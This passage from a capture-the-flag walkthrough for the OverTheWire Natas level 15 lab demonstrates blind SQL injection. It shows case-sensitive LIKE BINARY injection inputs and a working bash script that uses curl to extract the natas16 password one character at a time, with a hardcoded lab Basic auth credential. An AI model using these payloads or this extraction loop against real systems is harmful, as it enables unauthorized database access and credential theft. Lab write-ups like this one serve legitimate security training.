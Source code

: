 this also works. This is because LIKE is case insensitive, we should use LIKE BINARY.

```text
Input  : natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "N%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "N%"#
Result : false
```

```text
Input  : natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "n%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "n%"#
Result : true
```

```text
Input  : natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "w%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "w%"#
Result : false
```

```text
natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "W%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "W%"#
Result : true
```

Lets create a bash script to get the password

```bash
passwordlenght=32
CurrentChar=0
password=""
while [ $CurrentChar -ne $passwordlenght ]
do
    for letter in {{a..z},{A..Z},{0..9}}; do
        injection="\" AND (SELECT password FROM users WHERE username=\"natas16\" LIMIT 1) LIKE BINARY \"$password$letter%\"#"
        data="username=natas16$injection"
        curl_output=$(curl -s 'http://natas15.natas.labs.overthewire.org/index.php' -H 'Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==' -d "$data")
        if echo $curl_output | grep -q "This user exists."; then
            password="${password}${letter}"
            CurrentChar=$(( $CurrentChar + 1 ))
            echo "[+] Password: $password"
            continue 2
        fi
    done
done
```

